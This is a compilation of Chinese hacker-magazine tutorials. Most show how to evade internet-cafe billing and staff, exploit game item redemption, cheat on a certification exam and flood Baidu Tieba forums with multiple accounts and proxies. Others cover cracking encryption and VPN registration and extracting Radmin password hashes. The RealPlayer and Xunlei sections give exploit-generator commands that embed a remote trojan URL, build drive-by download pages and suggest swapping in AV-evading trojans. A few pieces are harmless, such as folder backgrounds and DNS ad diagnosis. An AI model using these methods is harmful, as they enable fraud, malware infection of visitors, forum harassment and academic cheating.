整理了一下思路，突然想起了精锐网吧辅助工具里的禁止运行项目，先来看看它的注释：进程管理里面增加“终止并禁止运行”，如果使用“仅添加到禁运行列表”，那么已经运行的程序并不会被终止，但终止以后将无法再运行了。某文件名被添加到禁止运行列表后，即使你关闭网吧辅助工具或重启计算机，该文件名也无法再运行（装有还原保护的计算机除外），想继续使用该文件名的程序请到“禁止运行列表”取消禁止即可了，如图5。我们先点上方的“禁止运行”项，在左下空白栏输入要禁止的进程，最后点后边的“禁止运行”按钮就行了，再按照老方法操作一遍，哈哈，CMD 进程果然没有出来。剩下的就是自由的上网时间了，破解完成。

其实我也是小菜，只是综合了各位高手留下的工具来完成这次的破解。另外要提醒一下的是，有的网吧安装了防下载和防删专家，对于这样的网吧还是有办法的。我们把需要用到的工具上传到 QQ 硬盘里就行了，经我测试，我们这里安装了防下载专家的网吧90%都没有屏蔽 QQ 硬盘，15M 的空间也基本够用了。如果实在无法下载所需工具的话，我们还可以进入网吧小子的在线下载页面，这里面集成了太多好用的工具，我们要做的就是选择一个路径来存放工具就可以了，网址是 www.maccqq.com/online/chol/。另外还可以花99元买个4G的U盘，相信没有网吧会禁掉 USB 吧。好了，关于破解雨人网络E卡通就介绍到这儿，如果还有什么不明白的话，可以到 X 的论坛和我一起探讨！


> （本文所涉及到的冰刃1.22版和精锐网吧辅助工具5.9已收录到光盘中）

### 万象网管——要免费更安全

凯来飘去 [B.B.E]

我们这儿的网吧使用的都是万象2004管理系统，所以练习破解的对象也就只能是它了（没办法呀，我连美萍和 PubWin 都没有见过）。现在流行的破解方法是修改管理员密码，使用管理员账户登录，断开和服务器的连接，杀掉万象进程等等。这些方法在使用上倒是没有什么问题，但却不同程度地存在一些不安全的因素（为了省两个钱被抓而丢面子实在是太不值得）。比如修改管理员密码登录，我特地找服务器旁边的电脑进行试验，看看在服务器上有何反应（在网管眼皮底下，冒着生命危险测试，还好我操作速度快，否则@#$%^&*）。当我修改了密码，成功登录上去，刚感慨这个方法不错，结果就在服务器上看到了一句恐怖的话：管理员在线登录。还好管理员当时不在。


一个字：险！而断开连接的方法也有问题，如果是计时的话，玩得只要不太过分，还没大碍。上次一朋友在网管面前开1小时，结果却坐了3小时都舍不得离开，后来被老板赶了出去。至于杀万象进程的方法就和上面的那几个差不多了。而被小菜炒得很火的那个“万象继灵”破解工具，其实就是把别人的工具整合在他自己的那个程序中，和使用 WinRAR 打包没什么两样，因此就不浪费版面介绍没用的东西了。

那么怎样做才算是安全呢？来看看我所使用的方法。来到网吧，看看人不怎么多，这种状况最好不过了（不要在人潮的时候去凑热闹）。找台电脑坐下，环顾四周，保护自己不在网管的直接视野内（这点很重要哦），使用会员卡登录（没有会员卡的也照样能使用），打开自己的网盘，把工具拖下来（用时15秒）。运行“万象杀手”（不使用密码就能更改万象配置的工具），当然不是要你去更改密码，而是在“一般设置”里的自动关机处设置一个时间（随便设置几分钟，不过做人要厚道哦），如图1，然后点击“确定”保存设置。


接下来运行一个叫做“Super X Desktop”的虚拟桌面软件，等待5秒钟后点击 OK 按钮，如图2，这时系统托盘处多了一个图标，上面写着一个“1”。


再接着运行“隐藏专家”，点击托盘处的那个“H”样式的图标—“设置”，如图3，在“托盘图标”项目输入一个“X”，然后点击“添加”—“确定”（图4）。好了，准备工作结束了（用时30秒）。

现在，按住“Ctrl + Num2”（小键盘上的数字2），那个“1”的图标变成了“2”（此时我们来到了一个虚拟桌面，这是切换桌面的方法），再按下“Alt + X”（刚才那个图标不见了），再按下“Alt + Z”（隐藏专家的图标也不见了），如图5。

该隐藏的图标都离开了，这时可以点击“结账下机”来注销会员卡，等桌面被万象锁定后按“Ctrl + Num3”再创建一个新的虚拟桌面切换出来，修饰一下桌面后便可免费玩了。之所以说这个方法是人为的漏洞，是因为此时网吧前面的服务器上显示你使用的那台电脑是锁定状态，而且又不能直接查到你，因此基本上不会来查一台空的电脑，这也就是为什么不能在网吧爆满的时候使用的原因（注意：切换出来若要玩全屏的游戏，则最好不要再切来切去，切换一个能玩就行了）。退一步讲，如果被网管怀疑了，就按下重启电脑吧，反正重启后一切都被还原了，包括我们的作案工具，所以此法还是比较安全的。

> （本文所涉及到的万象杀手、Super X Desktop 和隐藏专家已收录到光盘中）


## PubwinKiller——闷杀Pubwin的利器！

我拥有的第一本《黑客X档案》是2003年9月的那期，看了这么长时间的杂志，在与 Pubwin 不断的斗争与“智慧”中也积累了一些经验，心里越来越痒，就制作了绿色版《黑客X档案》PubwinKiller。希望它可以使众多小菜轻松地摆脱 Pubwin，舒舒服服地玩免费。

《黑客X档案》PubwinKiller 针对所有版本的 Pubwin，无论是 Pubwin2004、PubwinEP 还是 Pubwin2007。该工具被破坏的是 Pubwin 核心锁屏、关机等功能，Pubwin 的进程并不破坏，这就使得 Pubwin 能够持续地告诉主机：这台机器正常。以此来达到我们安全免费上网的目的。

运行“破解Pubwin”屏幕显示：“正在破坏Pubwin锁屏功能...”，这时等大约5秒钟。5秒钟后屏幕锁定破解完成，如果怕被发现，可以根据你的 Pubwin 版本选择生成托盘/快捷图标就行了。现在你就可以去换机器或者刷卡下机啦，别用太久啊！

最后还有两点要提醒下大家：

- 第一，因为《黑客X档案》PubwinKiller 阻止所有程序的关机动作，所以关机前请先“恢复Pubwin”；
- 第二，换机器或者刷卡毕竟有些麻烦，如果你是会员，并且手够快的话，你可以在显示“正在破坏Pubwin锁屏功能...”时自动结账（如图2），这样就舒舒服服地坐在那里继续上网了。


注意在运行软件之前，一定要关闭所有正在运行的程序。

> （本文所涉及到的《黑客X档案》PubwinKiller已收录到光盘中）

### 打造超级个性的文件夹

天天面对 Windows 同样的文件夹背景，是不是已经厌倦了呢？今天我就给大家带来了一款可以帮你修改文件夹背景的小程序——Backgrounder.exe，它的使用方法非常简单。

首先看看我们自己的文件夹，如图1，是不是很难看呀！我们运行 Backgrounder.exe，软件界面如图2所示。先点击第一个“选择”来选择要更改的文件夹，我选择的是 `C:\windows\system32` 这个文件夹；再点击第二个“选择”来选择一个要作为文件夹背景的图片；然后就是字体的颜色了！这里大家可以根据你所选择的图片是什么颜色的来决定，我选的是红色。最后点击“添加图片”就可以了。

好了，大家来看看效果吧，如图3。怎么样？已经很好看了吧！


### 靓小菜在梦幻国度刷道具

grayjay1313


这天我的同学送给我几张妙脆角里的卡片，说可以兑换梦幻国度点券。回到家后，我按卡片说明登录活动主页进行操作（如图1）。


在网页右下角进入登录和兑换页面，登录后可见“获取休闲币”按钮，点击后进入兑换点券页面（图2）。


输入兑换码后会为账号充值游戏币（示例为150），再返回兑换商城选择梦幻国度道具（图3）。


可按账户余额兑换道具。以“小猪蛋糕”为例，点击兑换后出现信息填写界面。除游戏分区外，其余信息可按要求填写，提交后提示兑换成功并提示到指定地点领取（见图4、图5）。


进入梦幻国度后，到指定NPC处领取活动道具，选择对应活动项并确认即可领取成功（图6、图7）。


可重复操作领取道具。示例中蛋糕数量由35增加到57（图8、图9）。建议适量领取，够用即可。


## RealPlayer，迅雷一起上——0day 的乐趣

杜华军 / 魅牌（52cmd.cn）

今天给大家介绍两款流行软件的 0day 漏洞，都是可以用来挂马的，你们要赶紧学会，不要落于人后哦！

#### 一、RealPlayer

近日，超级巡警团队检测到 RealPlayer 的一个非常危险的漏洞。该漏洞发生在 RealPlayer 的一个 ActiveX 控件上，漏洞公布后就开始在地下流传这个价值不菲的 RealPlayer exp 程序了。当安装了 RealPlayer 的用户在浏览器访问精心构建的包含恶意代码的网页后，将会在后台下载木马病毒并运行。该漏洞影响的版本是 RealPlayer 11 Beta 和 RealPlayer 10.5。漏洞产生原因如下：RealPlayer 的 MPAMedia.dll 库所提供的 RealPlayer 数据库组件在处理播放列表名时存在栈溢出漏洞，远程攻击者可能利用此漏洞控制用户系统。由于可以使用 ierpplug.dll 所提供的 IERPCtl ActiveX 控件将本地文件导入到 RealPlayer 指定的播放列表中，因此如果用户受骗访问了恶意网页并导入了恶意文件的话，就可以触发这个溢出，导致拒绝服务或执行任意指令。

以上都是牛人们研究的东西，我们这些小菜只需要知道怎么利用就可以了。先把 realplay_exp.rar 解压，在 cmd 命令提示符下进入你解压的目录，输入文件名称，就会出现文件帮助信息了，如图1。


```bash
Usage: realplay_ActiveX_Oday.exe <URL> [htmlfile]
realplay_ActiveX_Oday.exe <木马地址> [生成文件名称]
```

我们照着这个格式生成一个网页：realplay_ActiveX_Oday.exe http://www.52cmd.cn/ceshi.exe Read.html，如图2。把生成的文件上传到自己的空间上，我安装的 RealPlayer 是 10.5 版本的，传到空间里的地址是 www.52cmd.cn/read.html，在 IE 里打开看看效果，溢出成功了，测试程序被运行了，如图3。对于该漏洞，解决的方法就是将 RealPlayer 更新到最新的版本。


#### 二、迅雷

迅雷是目前一款非常流行的下载工具，注意哟，本文说的迅雷可不是那个 Web 迅雷。迅雷的 PPLAYER.DLL.1_WORK ActiveX 控件（pplayer.dll 组件版本号 1.2.3.49，CLSID: F3E70CEA-956E-49CC-B444-73AFF593AD7F）中的 FlvPlayerUrl 函数没有正确验证用户提供的参数，如果向其传递了超长参数就会触发缓冲区溢出，导致执行任意指令。远程攻击者可能利用此漏洞控制用户系统。迅雷官方公布的最新版 Thunder5.7.4.401 依然受此漏洞的影响，使用这个漏洞来挂马非常非常简单，只是如果使用 iframe 的话，高度限制不能为 0。

下面我来演示一下如何利用该漏洞。这个漏洞的危害性非常大，小菜们可别做坏事哦。解压 xunleikanakan.rar，这也是一个在 CMD 命令行下运行的工具，命令格式为 xunlei_0day.exe [exe木马地址] [保存文件名]。这和上面那个 RealPlayer 漏洞类似，利用几乎没什么区别。将生成好的网页文件上传到空间中，比如上传后的地址为 `http://www.52cmd.cn/xunlei.html`，打开 IE 访问该地址来看效果，同样溢出成功了，测试程序被运行了，如图4。该漏洞的解决方法就是到官方网站下载补丁程序，直接更新就可以了。


#### 三、总结

在实际的使用中，只需要将测试程序更换成我们配置好的免杀木马就可以了。这两个漏洞都比较严重，请大家尽快升级软件或者打上补丁以免中招哟。（本文所涉及到的两个 0day 利用工具已收录到光盘中）

## 百度贴吧攻击战——


梁天爽

在上期杂志上我为大家介绍了如何使用百度贴吧守护者来管理维护我们的百度贴吧，相信小菜们不会满足于做到防范攻击，在此就为大家补上一篇爆吧攻击的文章，正所谓有攻亦有防嘛。

对于攻击来讲，最常用的工具就是“百度贴吧复仇者”了，但这款工具也由于太出名，所以总被百度封杀。网上能够找到的都是半自动的工具，或是已经过期了的全自动工具。为了满足大家的使用，我特意在“复仇者”的基础上进行了改良，改进出了“黑客X档案专用 baidu 贴吧复仇者”……最主要的是这是一款全自动的爆吧软件，也就是不用输入验证码，所以各位读者大可放心使用。

来看一下如何使用这个工具。运行后，直接按最大化，即可打开；这是我们要用到的工具界面，如图1。由于界面比计划的大，下面一些按钮看不到，不过在系统的“任务栏属性”中，勾选“自动隐藏任务栏”就行了，如图2。


在设置界面中，默认时间间隔设置为“标准”10，“最大”设置为20，单位设置为“100”，这几个数值最好不要乱改，如图3。

该软件会使用登录了的下一个账号。至少登录6个账号是为了加快爆吧的速度，因为百度对于注册用户的发帖间隔时间要求是大于6秒，如果只使用一个账号，那么就会不断尝试，1秒一次，6次才能成功发一个帖子；登录6个账号就可以达到1秒发一个帖子了。在左侧中间位置的“标题/内容”框里输入爆吧所使用文章的标题，并在其右边“发送文本”框中输入要发帖子的内容，如图4。


在左上角的登录框输入用户名，建议至少注册6个百度号或更多，都登录上，并且勾上账号列表下面的“去被封帐号”和“循环”选项。这样在爆吧时如果账号被封，软件就会自动跳过该账号而使用登录了的下一个账号。

在中间上方的“目标贴吧名”中输入想要爆的吧，我们就以“日本の家”为例，然后点击右边的“获取信息”以验证输入是否正确，在右边的状态栏中提示“获取”就证明填写正确，如图5。

然后点击最下面的“连续发帖”，工具就开始自动爆吧了，在状态栏中会有很详细的动作提示，如图6。最小化后，工具就会在右上角有一个半透明的信息框，左面数字是已发送的次数，右边数字是成功的次数。


一般吧主都会封用户而很少有封IP的，倘若封IP的话可就是许多爆吧者的噩梦了，我再教大家几个免封IP的方法……使用代理服务器的方法是打开IE浏览器，选择“工具”->“Internet选项”->“连接”->“设置”，勾选代理并填写IP地址和端口。


如果IP被封的话换个代理就可以解决了。关于爆吧，我特别要强调的是：我们本着“爱国护国”的思想，只爆一些崇洋媚外不爱国、亲日的相关贴吧，其他的吧主大可放心，我们不会打扰。

### 菜鸟之“垃圾桶”里挖宝贝


记得N年前，我曾听说有一个叫作“UUme FLV Spy”的软件可以帮我们下载在线播放的视频……我也要教你一个“很菜”的方法来下载在线播放的音乐和视频。该方法不需要多高深的技术，不需要使用工具，也不需要查看源代码。

我们平时几乎都是在土豆网、优酷网等大型视频网站在线观看视频，原因是这些网站缓冲速度快、不卡、视频品质好。为什么这些视频能够在我们的电脑上播放？因为视频文件经过缓冲已经保存在本地电脑上了。

- 1. 随便打开一个观看视频的网站，选择一个视频进行播放，等着视频进行缓冲（如图1）。
- 2. 等到缓冲进度条“冲”到最后，一定要全部缓冲完才行，否则文件会不完整（图2）。
- 3. 接着就可以去“垃圾桶”里挖宝贝了：打开IE，在菜单栏选择“工具”→“Internet选项”，点击“Internet临时文件”中的“设置”，再点“查看文件”（图3、图4）。


……文件，包括图片、程序、网页等）。

四、我们要做的就是从垃圾桶里找出它们。要找出它们就要用到“搜索”功能，因为有时候“临时文件夹”里会有上千个文件，文件数量的多少根据你浏览网页的多少来决定。点击资源管理器上面的那个“搜索”按钮，然后选择“所有文件和文件夹”，接着资源管理器就会自动定位“临时文件夹”这个搜索范围。搜索时该怎么输入文件名呢？经常处理电脑的菜鸟们应该知道“*”这个符号是系统命令里的通配符，可以代表所有字符。在这儿就可以用到了——输入“*.flv”，就可以搜索所有以“.flv”为扩展名的文件了，当然如果视频网站的视频是其它格式的话更改一下相应的扩展名就可以了，如图5。需要注意一点，搜索哪一种文件就要看播放视频所用的网页插件是哪一种。通常在线播放视频用的播放插件是 Flash9 插件，因此可以知道那个视频的扩展名是 flv。要是遇上 Real 播放插件，就应该输入“*.rmvb”或者“*.rm”。在线播放的音乐和视频有些是使用 Media Player 插件播放的，视频文件则搜索“*.wmv”，音乐文件则搜索“*.mp3”。

五、由于下载的视频名字是别人用来管理的“编码”格式，帮它改名就得看你的眼睛了（图6）。不知道有没有谁有兴趣想看看那个视频呢？如图7所示就是视频的一张截图，你可别告诉我不知道那是什么哦，不然那可真是该打了（小编：因为视频文件在当文件夹选项设置为缩略图显示时一般会显示视频的第一个图像）！

学到了这个方法是不是很过瘾呢，既不用工具，又不用太多知识，随时随地对视频进行“掠夺”。不过，别高兴得太早了。由于“Internet临时文件”是一个系统级文件夹，因此受到系统的保护，从里面把文件取出来只能一个个地取，一次取多个文件的话就会出现“无法读取磁盘”的提示。最后还要注意安全第一，从“垃圾箱”里挖完宝贝后还是要注意安全的——及时倒垃圾！


### 文件加密真的安全吗？

火虫

朋友给我推荐了一款 Word 文件的加密软件，名字叫 Unnoo Document Protector（也就是文件锁了），使用了一下发现该软件也并没有想象中的那么强大。先使用这款软件加密了 Word 文档，设置密码为123，阅读次数为3次，如图1。

可以看到，设置成功，保存所作的修改后会出现一个名为 jiani.und 的文件，使用自带的查看软件打开，如图2。

确实打开了，单击右键，发现有一闪而过的菜单，看来是被锁住了。后来通过软件 SPY4WIN（探测和获取窗口信息）发现了源代码，看来也不过如此嘛（图3）。

总体来说，这个软件是将 Word 文件转换成 *.mht 格式，加密后保存为 und 格式，查看器就是一个 exe 文件，内嵌一个 WebBrowser，用于打开这个 und 格式。那么我们完全可以通过找到 mht 在磁盘上的缓存位置来破解这个软件。

经过测试，我发现这个文件是保存在 C:\Windows\undat\ 目录下的，使用资源管理器访问会出现假死的情况。使用 ICE Sword 结束进程后打开文件就可以看到加密过的文件了，并不是非常困难。

由此可见，所谓的强悍软件也并不是不可攻破的，只要我们有足够的耐心，并仔细地去思考，就一定能够战胜它。这也同时验证了一句话：没有绝对的安全！

（本文所涉及到的 SPY4WIN 已收录到光盘中）


### 解开高强度文件夹加密大师的“秘密”

冰sugar（朱巨源）


我们社团的一学弟拿了一个高强度文件夹加密大师给社长，说是一个加密文件夹很好的东西，可以把私藏的物品存放在文件夹中然后再进行一些加密。出于好奇我也就过去看了看。他说这是他花了好长时间才找到的一个不错的东西，还说网络上没有比这个更好的加密文件夹软件了……


图1

安装好后，在我们的文件夹右键菜单里就多了一个“高强度加密”选项，这个就是加密大师的杰作了。新建一个文件夹，在文件夹里新建一个文本文件，然后往文件里加点内容，接着加密文件夹，密码为1（图2）。


图2

加密完成后会看到只有“解密加密.exe”这个新生成的文件，其它都被隐藏了。后来的测试发现，“解密加密.exe”只是修改了系统文件设置，相当于把系统文件给隐藏了……现在打开我们的文件夹看看，多出了两个文件（图3）。


图3

Desktop.ini 是一个配置文件，因此它告诉我们加密后的文件肯定是藏在 Thumbs.db 里的。随手双击打开它，发现里面什么都没有，因为它只是一个打印机任务。难道我们的文件不翼而飞了？我看了看它的属性——大小16.0KB（16,384字节）……根据文件大小能够猜测文件应该就在里面。为了证实猜测，做了实验，搜索后找到了一个 1.rm 的文件（图4）。


图4

进行加密后的文件信息如图5所示，这证实了我的猜测，可以把心思全花在 Thumbs.db 这个文件上了。


图5

为了更好地在 Thumbs.db 上做实验，我又创建了一个文件夹，把 Thumbs.db 拷到那个文件夹里。随后围绕文件后缀、解密方式进行测试：若不存在原先加密文件，加密后会产生 Thumbs.db（内含验证码文件和源文件）；若已存在加密文件，会提示输入解密密码……

接着借助 RAR 对 Thumbs.db 进行压缩包方式打开，进入 Thumbs.db 文件夹后可以看到其中若干文件（文中提及 1.mem 为源文件），并对分离出的文件与解密程序进行组合测试。最终观察到：软件会要求输入加密/解密密码，并在特定情况下出现两次出错提示（图8、图9）。

经过我反复的实验，得出了以下结论：

- `.mem.cs` 为源文件1；
- `.mem.es` 为源文件2；
- 依此类推。

虽然在我们解开的过程中损坏了文件名，但是这个影响并不是很大，只要不破坏到里面的数据就行了。使用记事本打开 `.mem.es`，就可以看到我们之前的内容了。

还是以刚才的 `1.rm` 进行讲解，我们已经把加密后的文件解开了，现在使用记事本打开，就可以找到文件头了（图11）。

因此，该软件的这种另类的解密过程并不会破坏原来的文件，这次对于高强度文件夹加密大师的破解也宣告成功了。

## 在校突破ATA考试认证系统的限制

这几天学校组织微软认证考试，使用的是 ATA 考试认证系统。我刚开始还不以为然，让同学整理好资料后存入 U 盘。结果一插入 U 盘我傻眼了，根本就不让我使用资源管理器，只能在里面乖乖地选择你的答案，其它的事情想都别想，如图1。

我浏览了一遍题目，然后单击选题，在题目序号那里居然还可以输入些什么。我随便选了一种输入法，这可真是的，连智能 ABC 输入法都没有，我只好选择了“中文（简体）—全拼”（图2），打开帮助说明（图3），发现帮助文件没有被它屏蔽，可以输入跳转的地方。

我在里面输入了 `file:///C:/`，意思也就是打开 C 盘（图5）。越来越有意思了，我马上插上 U 盘，顺利地打开了我的 U 盘。后来又发现可通过绝对路径打开目录。由此继续尝试后，我推测该系统在调用外部帮助窗口时存在可被利用的“置顶/跳转”行为（图6）。

原来是这样，这就证明了只要是能够置顶的程序都是可以在 ATA 考试认证系统中运行而且不会被屏蔽掉的。我找了好久终于找到了一个可以置顶的记事本，现在就可以把资料存放到记事本里去了。按 Ctrl+F 查找肯定比别人的手工查找要强吧（图7），赶快去行动吧！

> （本文所涉及到的记事本已收录到光盘中）

### 爆吧？判死刑！

#### 突破百度贴吧封号限制

对于百度贴吧，想必许多朋友都经常上的吧，甚至有很多友子可能都已经当上吧主了。作为吧主，一个很头疼的问题就是防爆吧，虽然在《黑客X档案》上也曾经介绍过使用贴吧伴侣来进行批量删帖，但是顶住了爆吧者的这一次攻击，那他要是下次再来攻击该怎么办呢？我们也不可能每时每刻都守在贴吧里。那就将爆吧者的 ID 封了吧！可是百度又实在有些不厚道，封 ID 最多只能封 10 天，10 天后，重获自由的爆吧者又可以卷土重来了，那么……难道真的没有办法彻底消灭爆吧者吗？当然不是，其实在百度贴吧里永久封锁 ID 照样能实现，具体方法如下。

第一步：在要封的 ID 旁点“封”字（图1），打开封号操作的窗口，在右边可以选择封号时间（图2），最多只能选择 10 天。先随便选一个时间，点“执行封锁”，然后就会弹出一个“操作成功”的窗口。这一步是正常的封号步骤，现在来看关键的第二步。

第二步：在“操作成功”窗口的地址栏中找到“pn=n（n 是你开始选的封号时间，我选的是 3 天，所以要找的就是 pn=3）”（图3），将 n 修改成一个足够大的数字，比如 1000000000，然后按一下回车。这样，目标 ID 就可以被封 1000000000 天了，现在来看一下效果（图4）。

最后，再来补充两点经验。

- “操作成功”窗口的地址栏中有一大堆东西，对于眼力不好的人来说找到“pn=”这几个字还是有点困难的。其实只要将地址栏中的所有内容复制到一个记事本里，然后使用记事本的查找功能（编辑->查找），查找“pn=”，找到数字并修改好后直接全选，再复制到地址栏就行了。
- 在改动数字 n 的时候，建议改为 1000 之类的数字，如果修改为诸如 99999 或 123123 之类的数字，可能会导致被封 ID 自动解封。希望这个小方法可以帮助大家在维护贴吧的时候帮上一点小忙，当然，切不可使用此方法恶意封人 ID 哦。

### 让你的 Remote Administrator 聪明避开

在众多的远程控制软件中，Remote Administrator 可谓是鼎鼎大名，在实际的网络管理中应用非常广泛，因此 Remote Administrator 也成了入侵者攻击的重点目标。因为在默认情况下，Remote Administrator 没有设置连接密码，任何人都可以连接远程主机；即使设置了密码，如果密码设置得过于简单的话，也很容易被猜解出来。更何况现在还出现了很火的 Radmin 批量提权技术，入侵者只要向服务器上传 ASP 木马，就可以直接读取注册表中的 `HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters`，将 “Parameter” 中保存的加密散列提取出来，然后将其转换为十六进制数值，使用经过修改的 Radmin 客户端即可连接远程主机了。

针对 Remote Administrator 的安全威胁，除了设置复杂的密码外，最好的解决办法就是在自己需要使用的时候才开启 Remote Administrator，使用完毕后立即关闭，不给入侵者任何可乘之机。另一个办法就是利用 Email Commander 这款独特的软件。我们只需向预设的邮箱中发送一封特殊的邮件，即可轻松开启 Remote Administrator。

将 Email Commander 安装到远程机上，当初次使用 Email Commander 时，在弹出的设置窗口中配置认证邮箱信息，这样 Email Commander 就可以只接收该邮箱中的邮件，进而分析其中包含的邮件来执行对应命令。在 Email Commander 配置窗口中点击 “Configure Email Server Settings” 按钮（图1）就会弹出 Email 服务器设置窗口了。在 “POP Settings” 栏中依次输入邮件接收服务器地址、用户名和密码信息，在 “Port” 栏中可以更改端口号（默认为 110），我们传送的控制邮件只能发送到该邮箱中。

在 “SMTP Settings” 栏中依次输入邮件发送服务器地址、发信人地址、用户帐号和密码、端口号，勾选 “Use SSL” 项，表示使用 SSL 加密邮箱。该 SMTP 设置用于发送确认邮件，然后点击 “Save” 按钮保存设置（图2）。

在 Email Commander 的配置窗口中点击邮箱添加按钮，在弹出对话框中输入许可的邮箱地址（图3），点击 “Add” 按钮即可完成添加操作（图4）。

Email Commander 只对来自该地址的邮件进行分析处理，而忽略来自其它地址的邮件。在 “Check Email Interval” 栏中可以更改检测邮箱的时间间隔（默认为 30 秒），设置好后点击 “Save” 按钮保存设置。当配置完成后，Email Commander 即可处于激活状态，任务栏中会出现其运行窗口（图5），当需要停止其运行时，点击其中的 “Stopped” 按钮即可。

简单地说，在任何邮件发送软件中撰写一封新邮件，当然必须使用经过认证的邮箱地址。在邮件主题栏中输入控制指令，例如输入“!radmin”表示激活 Radmin，邮件的内容可以为空，注意应该使用经过认证的 Email 地址发送邮件。将该邮件发送到预设的邮箱中后，经过预设的时间间隔，Email Commander 即可从预设的邮箱中接收到该封邮件。Email Commander 经过认证处理后，确认是我们发送的邮件，就会读取邮件主题，根据“!radmin”指令，自动启动远程机中的 Radmin 了。这样，我们稍后就可以启动 Radmin 客户端连接工具来连接远程主机了。当使用完 Radmin 后，可以在其提供的 Telnet 中执行“r_server.exe /stop”命令，就可以停止 Radmin 的运行了。以后需要启动 Radmin 时，再次发送上述控制邮件即可。当然，在 Email Commander 中还提供了其它的控制指令，包括“!prepare”（将收取邮件的间隔增加 10 秒）、“!stopprepare”（将收取邮件的间隔设定为默认值）、“!interval [interval]”（将收取邮件的间隔设置为预设值）、“!shutdown computer”（关闭远程机）、“!turnoff”（关闭 Email Commander）、“!alive”（给发送人返回确认邮件）等。

### 菜鸟来搞定网通的流氓广告

这天我像往常一样打开 http://www.126.com，想登录一下 126 邮箱，却突然发现屏幕右下角跳出了一个广告窗口，如图1。紧接着电脑就卡得不行了，调出任务管理器一看，内存使用一下子从原来的 300 多 M 窜到了近 600M。我暗叫一声不好，中招了。

马上结束 IE 的进程，看到底是怎么了，中网马了？一想到网马，我就有些害怕，尽管我的杀毒软件的监控全开着，防火墙也开着，但也不敢排除有人使用未公布的 0day 挂马。我使用卡巴，在 C:\ 隔离扫描了一下 system32 目录，都没有发现病毒；又在 D: 搜索了一下当天生成的新文件，也没有发现什么可疑的文件。几乎可以排除本机中病毒或木马的可能。难道不是网马？我仔细想了想，认为判断为网马确实有些太武断了，都怪以前中网马中的太多了，一看到 IE 卡就认为是有网马。

但是那个广告窗口总不至于无缘无故地出来吧，肯定是有原因的，只是我一时找不到原因而已。去华夏论坛发了个帖子说了下情况，很快就有人说可能是被 ARP 了，也有人说可能是 ISP 的广告推送。说起 ARP，倒有些像，我访问别的网站都没事，只有在访问 http://www.126.com 时才有弹出广告，但貌似只有在内网 ARP 攻击才有效果。但我却是使用网通的 ADSL 上网的，不处在内网中。如果再排除 ARP，那就只剩下 ISP 广告推送这一种可能了。要真是 ISP 广告推送的话还真不好弄。我在北方，使用的是网通，似乎只能使用网通的 ADSL 上网。

再来看看那个广告，看能不能有什么收获。为了以防万一，我提前打开了完全影子系统。仔细看看，广告上有个“青岛杰晨广告有限公司”，直接用百度搜索了一下，很顺利地找到了那个公司的网站。原来是一家从事互联网广告业务的公司。当看到它的“通路广告”业务时，我觉得我电脑的问题跟它有很大的关系，先来看一下对方的工作原理图，如图2。

设定要添加广告的，将用户请求的网站信息连同广告一同返回给用户的浏览器；不符合设定的，只把用户请求的网站信息返回给用户。从原理可以看出，问题出在了 DNS 解析服务器上，而 DNS 解析服务器应该是由 ISP（我这里是山东网通）管理的，所以我怀疑是网通耍流氓。通过 DNS 服务器向访问特定网址的用户推送广告，这一招太毒了。假如有人入侵了那台 DNS 服务器并把广告换成了网马，后果就太严重了，要知道可能好几个城市的网通用户都使用同一台 DNS 服务器呢。

既然知道了问题是出在 DNS 服务器上，那我们换台没有被做手脚的 DNS 服务器不就行了吧。说干就干，在命令行下输入命令 `ipconfig --all`，如图3。

```text
PPP adapter 123:

Connection-specific DNS Suffix . :
Description . . . . . . . . . . . : WAN (PPP/SLIP) Interface
Physical Address. . . . . . . . . : 00-53-45-00-00-00
Dhcp Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 60.215.*.*
Subnet Mask . . . . . . . . . . . : 255.255.255.255
Default Gateway . . . . . . . . . : 60.215.*.*
DNS Servers . . . . . . . . . . . : 202.*.134.68
                                    202.*.128.68
NetBIOS over Tcpip. . . . . . . . : Disabled
```

我当前使用的是 202.*.134.68 这台 DNS 服务器（我用 * 替换了某些 IP 中的某些数字，下同），还有一个 DNS 服务器 202.*.128.68，估计是备用的。把 DNS 服务器换成 202.*.128.68 试试，双击任务栏中的拨号连接图标 ->“属性”->“网络”->“Internet 协议（TCP/IP）”->“属性”，选择“使用下面的 DNS 服务器地址”，在里面输入 202.*.128.68，再确定就 OK 了，如图4。

重新拨号连接上网，试着访问 http://www.126.com，没有再弹出广告窗口，成功解决了问题。其实要是早知道是 DNS 服务器的问题，更换一个没问题的 DNS 服务器就可以解决了。

事后我猜测，很可能是网通跟那个什么广告公司共同搞的鬼，毕竟这种事见不得人，所以那台备用的 DNS 服务器是干净的。如果有用户投诉，就让你使用那个备用的；如果你不投诉，就只能自己想办法了。最后还有一点疑惑，就是既然是网马在弹出广告的同时，电脑为什么会那么卡，希望有知道的朋友能够指教一下。

### 魔兽世界 VPN 软件破解全攻略

Blink

在休息之余我喜欢玩玩魔兽世界这款全球顶级的网络游戏，最近初到北京，都知道北京这边的网络是以网通为主的，而我之前在上海则是以电信为主，所以游戏的 ID 也是在电信区中的。那么现在使用网通连接电信的服务器可就成了令人头疼的问题。如果使用代理，一来不安全，二来也不稳定，三来速度也不够快，所以我就想到了有个叫作 VPN 的东西。在网上查了查相关的资料及软件，结果是中了 一堆的 OnlineGame.PSW 及 Trojan.PSW，估摸有 60 个吧。

当然收获还是有的，其中就发现了一个专门针对魔兽世界而开发的 VPN 软件，“VPN123” 这款软件就是其中的一个，大家可以到 http://www.vpn123.com 下载。但是几乎所有用着不错并且没有带木马的 VPN 软件都需要注册，我看好的这款 VPN123 也不例外，因此才有了本文的出现。

首先我们下载 “VPN123.exe” 到本地 `D:\Soft\VPN123`，下载完成后双击 “vpn123.exe” 就可以运行并且看到界面了，如图1。

在帐号和密码栏分别输入 `test`、`test`，就可以使用测试帐户进行登录，但测试帐户限制了只能连接 30 分钟便会断开，5 分钟后方可再次连接，并且只能连接 3 次等限制。好了，先断开连接吧，我们还需要一个别的工具来帮忙呢。这个工具叫作 MaaTec，是我无意间找到的，后来玩了下发现可以监视一些东西就留下了，这次终于派上了用场。先运行 “intra_std_setup.exe” 执行安装，虽然是英文界面，但一路 “Next” 就可以了。安装完毕后我们在“开始”->“程序”-> ...

## 傻瓜黑客

“MaaTec”中点击“Network Analyzer”运行该软件（图2），然后关掉你的QQ、迅雷等任何需要使用网络的软件，也包括杀毒软件和防火墙之类的，再等待5分钟左右（因为有些软件有个释放过程，关闭后不会立刻断开网络，所以需要稍等一会儿）。

